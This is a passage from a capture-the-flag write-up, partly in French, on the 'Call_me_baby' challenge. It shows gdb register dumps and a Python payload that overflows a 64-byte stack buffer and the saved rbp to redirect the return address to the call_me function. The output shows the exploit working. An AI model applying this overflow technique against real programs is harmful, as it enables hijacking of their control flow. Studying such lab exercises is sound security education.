 ```gdb
rbp            0x7fffffffda00      0x7fffffffda00
rsp            0x7fffffffd9c0      0x7fffffffd9c0
r8             0x0                 0
r9             0x7ffff7fcfb10      140737353939728
r10            0x7ffff7dd8b08      140737351879432
r11            0x246               582
r12            0x0                 0
r13            0x7fffffffdb48      140737488345928
r14            0x403df0            4210160
r15            0x7ffff7ffd000      140737354125312
rip            0x40120a            0x40120a <vuln+45>
eflags         0x207               [ CF PF IF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
```

The `x/24wx $rsp` is printing out the stack, we can easily spot the "\x41" characters we gave to the program. Next we use the `info register` command to print out the register and find out where the rbp is : `rbp            0x7fffffffda00`. Looking at the stack, we can see that the rbp is right next to our input. We'll only need to write over the rbp (8 bytes) to reach the return address.

L'addresse à laquelle les fonctions se redirigent après leur execution est stocké après le rbp dans la stack. En regardant le registre et l'adresse à laquelle le rbp est stocké, on déduit le payload pour rediriger le programme :

```gdb
(gdb) break *call_me
Breakpoint 3 at 0x40118a
(gdb) info func call_me
All functions matching regular expression "call_me":

Non-debugging symbols:
0x000000000040118a  call_me
(gdb) r <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*64+b"\x41"*8+b"\x8a\x11\x40\x00"+b"\x00"*4)')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/coucou/Documents/CTF_SSI_2024/Call_me_baby/call_me_baby <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*64+b"\x41"*8+b"\x8a\x11\x40\x00"+b"\x00"*4)')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x00000000004011dd in vuln ()
(gdb) c
Continuing.
Write your love letter: 

Breakpoint 2, 0x000000000040120a in vuln ()
(gdb) c
Continuing.

Breakpoint 3, 0x000000000040118a in call_me ()
(gdb) c
Continuing.
... I said call me baby !!!!

Program received signal SIGSEGV, Segmentation fault.
0x00007fffffffdb0a in ?? ()
```
